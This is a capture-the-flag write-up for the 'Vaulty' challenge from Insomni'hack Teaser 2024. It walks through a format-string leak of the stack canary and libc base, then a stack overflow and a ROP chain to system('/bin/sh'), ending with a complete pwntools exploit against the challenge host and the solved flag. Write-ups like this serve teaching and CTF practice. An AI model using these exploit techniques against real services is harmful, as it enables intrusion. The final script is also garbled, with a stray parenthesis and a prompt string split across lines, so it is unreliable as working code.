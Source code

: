 Vaulty
Insomni'hack Teaser 2024
CubikMan47
# Introduction

In this challenge, we are given a binary that, upon execution, allows us to store and retrieve up to 10 entries in what resembles a password manager. Our objective, as usual, is to find a way to open a shell and read the file containing the flag.

# Initial exploration

The binary has a main menu with four options: create, modify, delete, or print an entry. Each entry is composed of three strings: a username, a password, and a URL, although they are not used in any meaningful way, but just stored.

When opening the binary in Ghidra, we see that depending on user choice, one of four different functions gets called; since no names are present in the binary, I renamed them inside Ghidra to `{create,modify,delete,print}_entry`. Additionally, I used a very handy `objcopy` command (`objcopy vaulty --add-symbol <name>=.text:<addr>,global,function vaulty2`) to add names to the binary itself, making them available inside gdb.

Let's now look at these functions:

- `create_entry` reads a username, a password, and a URL from the user to the stack, and then immediately copies all 32 bytes of each string to a preallocated array of entries. This function, however, does not limit the amount of input we can send as a URL, thus making an easy buffer overflow possible.
- `print_entry` uses `printf` to display an entry, however, does so in a way that the three strings are interpreted as the format, thus allowing us to create entries with specially-crafted strings that will allow us to read data from any address.
- `modify_entry` works in a way very similar to the `create_entry` function but does not read data and then copy it, opting instead to directly write to the entry. Like `create_entry`, this function doesn't check the length of the URL.
- `delete_entry` deletes an entry and shifts all entries after it by one so that the array doesn't have holes.

# The attack

The general plan, with the information we gathered above, is this:

- Using the format-string vulnerability, leak the canary, the address of libc, and the address of the binary
- Send a very long input to overflow the stack of the `create_entry` function
- Use Return-Oriented Programming to call `system("/bin/sh")` and read the flag.

## Leaking the stack with printf

Allowing the user to control the format specifier is what's called a "format string vulnerability", and is pretty easy to exploit. Format specifiers are written like this: `%[<index>$]<format>`, where `<index>` is used to tell printf which of the passed arguments should be formatted, and `<format>` specifies how to print it. However, the index is not checked against the actual number of arguments, so we can abuse the facts that parameters after a certain number are passed on the stack, and make `printf` print the location they would be in, thus leaking the contents of the memory. For this challenge, I used `%<index>$llx` as the payload, which prints a `long long` (8 bytes) number in hexadecimal.

By scripting the interaction with the binary, we can create an entry with a name, print the entry, thus executing our format specifier and leaking data, and then delete the entry to free space for the next iteration. The function below does exactly that:

```python
def leak_stack_offset(r, off):
    r.sendline(b'1')
    r.sendline(f'%{off}$016llx'.encode())
    r.sendline(b'password')
    r.sendline(b'url')
    r.sendline(b'4')
    r.sendlineafter(b'Select an entry to view (0-', b'0')
    r.recvline()
    ret = r.recvline().decode().lstrip('Username: ').strip()
    r.sendline(b'3')
    r.sendline(b'0')
    r.recvuntil(b'Entry deleted successfully.')
    return ret
```

## Exploring the stack

By calling the function above in a loop with the following code, we can view what the stack contains.

```python
r = process('./vaulty')
print(open(f'/proc/{r.pid}/maps').read()) # print the memory layout
for i in range(1, 64): print(i, leak_stack_offset(r, i)) # print the stack
```

Line 4 is used to print information about each block of memory that the program allocated. Here is an example of the output of the previous script (edited for brevity):

```
55d131813000-55d131814000 r--p /vaulty
55d131814000-55d131815000 r-xp /vaulty
7f053f2b2000-7f053f2d8000 r--p /usr/lib/x86_64-linux-gnu/libc.so.6
7f053f2d8000-7f053f42d000 r-xp /usr/lib/x86_64-linux-gnu/libc.so.6
7f053f49d000-7f053f49e000 r--p /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f053f49e000-7f053f4c3000 r-xp /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7ffc01730000-7ffc01751000 rw-p [stack]
 1: 00007ffc0174d860
 2: 0000000000000000
 3: 0000000000000000
 4: 1999999999999999
 5: 0000000000000000
 6: 00007ffc0174fdb0
...
```

The first block of output represents the memory layout of the process, which basically tells us which file is loaded at which memory range (for more details, refer to [this StackOverflow question](https://stackoverflow.com/questions/1401359/understanding-linux-proc-pid-maps-or-proc-self-maps)). The second block instead is what `printf` is leaking to us. Notice how at offsets 1 and 6, there are addresses pointing to the stack. By looking at more output from the script, we can find the canary and addresses to both libc and the binary. Since those addresses are at a constant offset from the base addresses of libc and the binary, we can just subtract the address we found from the base of the memory block it points into (printed by reading `/proc/<pid>/maps`), and get the offset. Then, when the exploit leaks an address, we can just subtract the offset again and get what is the base. For example, this snippet of code leaks all the information we need:

```python
canary = leak_stack_offset(r, 11)
base = leak_stack_offset(r, 13) - 0x1984
libc_base = leak_stack_offset(r, 3) - 0x114697
```

Note that the leaked offset depends on the exact build of libc, so we need to run the binary with the exact same libc as the one on the server. Luckily, in the challenge description, the organizers told us that it was running inside a `ubuntu@sha256:bbf3d1baa208b7649d1d0264ef7d522e1dc0deeeaaf6085bf8e4618867f03494` container. This allows us to quite simply extract the libc and ld.so from the container and patch our local binary to use it (a very handy tool that does this automatically is `pwninit`).

## Calling `system("/bin/sh")`

The final step is to use all the leaks we just got to overflow the stack of the `create_entry` function and use Return-Oriented Programming to open a shell. By looking at the stack with gdb, we can determine that `gets` reads at `rsp + 0x50`, the canary is located at `rsp + 0x78` (so after 0x28 bytes of input), and the return address at `rsp + 0x98` (so 0x18 bytes after the canary, since it occupies 8 bytes). The following snippet prepares the ROP stack and puts it after the return address:

```python
# Search for the string "/bin/sh" inside libc's memory
binsh = next(libc.search(b'/bin/sh'))

# Build the ROP stack
rop = ROP([elf, libc])
rop.raw(rop.ret) # needed to maintain 16-byte stack alignment
rop.system(binsh)

# Build the payload
payload = cyclic(0x28) + p64(canary) + cyclic(0x18) + bytes(rop)
```

# Putting it all together

This is the final script that, when run, opens a shell on the remote server. Running `cat flag` prints the flag, thus solving the challenge.

```python
from pwn import *

def leak_stack_offset(r, off):
    r.sendlineafter(b'Enter your choice (1-5):\n', b'1')
    r.sendlineafter(b'Username:', f'%{off}$016llx'.encode())
    r.sendlineafter(b'Password:', b'password')
    r.sendlineafter(b'URL:', b'url')
    r.sendlineafter(b'Enter your choice (1-5

):\n', b'4')
    r.sendlineafter(b'Select an entry to view (0-', b'0'))
    r.recvline()
    ret = int(r.recvline().decode().lstrip('Username: ').strip(), 16)
    r.sendlineafter(b'Enter your choice (1-5):\n', b'3')
    r.sendlineafter(b'Select an entry to delete (0-0):', b'0')
    r.recvuntil(b'Entry deleted successfully.')
    return ret

context.binary = elf = ELF('./vaulty2')
libc = ELF('./libc.so.6')
r = remote('vaulty.insomnihack.ch', 4556)

# Leak canary and base addresses
canary = leak_stack_offset(r, 11)
base = leak_stack_offset(r, 13) - 0x1984
libc_base = leak_stack_offset(r, 3) - 0x114697
elf.address = base
libc.address = libc_base
log.info(f'leaked canary: {canary:x}')
log.info(f'leaked base: {base:x}')
log.info(f'leaked libc base: {libc_base:x}')

# prepare ROP stack
binsh = next(libc.search(b'/bin/sh'))
rop = ROP([elf, libc])
rop.raw(rop.ret)
rop.system(binsh)
payload = cyclic(0x28) + p64(canary) + cyclic(0x18) + bytes(rop)

# run the ROP attack
r.sendline(b'1')
r.sendline(p64(libc.functions['system'].address))
r.sendline(b'password')
r.sendline(payload)
r.interactive()
```

Running the script prints the flag, `INS{An0Th3r_P4SSw0RD_m4nag3r_h4ck3d}`.
